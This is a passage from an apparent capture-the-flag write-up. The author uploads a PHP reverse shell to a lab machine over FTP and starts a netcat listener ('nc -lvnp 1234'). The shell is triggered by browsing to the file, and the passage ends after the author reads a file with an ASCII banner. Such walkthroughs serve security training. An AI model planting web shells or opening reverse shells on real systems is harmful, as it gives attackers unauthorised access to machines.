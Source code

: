 I saved the file as **/scripts/reverse_shell.php** and uploaded it to the machine.

```
ftp> put reverse_shell.php 
local: reverse_shell.php remote: reverse_shell.php
229 Entering Extended Passive Mode (|||8530|)
150 Opening BINARY mode data connection for reverse_shell.php
100% |**********************************************************************************************************************************************************************************|   125        3.31 MiB/s    00:00 ETA
226 Transfer complete
125 bytes sent in 00:00 (395.04 KiB/s)
ftp> 
```

I used [netcat](https://www.kali.org/docs/tools/starting-netcat-in-kali/) to listen for the reverse shell.

```nc -lvnp 1234```

And then I executed the reverse shell script on the machine by visiting the file in the browser.

Now I got the access to machine directory.

After browsing the VM directories I found a file called **important.txt** in /home directory.

```
www-data@ubuntu:/home$ cat important.txt
cat important.txt
  /$$$$$$    /$$     
 /$$$_  $$ /$$$$    
| $$$$\ $$|_  $$     
| $$ $$ $$  | $$    
| $$\ $$$$  | $$    
| $$ \ $$$  | $$    
|  $$$$$$/ /$$$$$$  
 \______/ |______/                                                                           
                                                                           
                                                                           
 /$$                                     /$$   /$$ /$$     /$$             
| $$                                    | $$  / $$/ $$   /$$$$             
| $$        /$$$$$$   /$$$$$$$  /$$$$$$ | $$ /$$$$$$$$$$|_  $$             
| $$       /$$__  $$ /$$_____/ |____  $$| $$|   $$  $$_/  | $$             
| $$      | $$  \ $$| $$        /$$$$$$$| $$ /$$$$$$$$$$  | $$             
| $$      | $$  | $$| $$       /$$__  $$| $$|_  $$  $$_/  | $$             
| $$$$$$$$|  $$$$$$/|  $$$$$$$|  $$$$$$$| $$  | $$| $$   /$$$$$$           
|________/ \______/  \_______/ \_______/|__/  |__/|__/  |______/           
                                                                           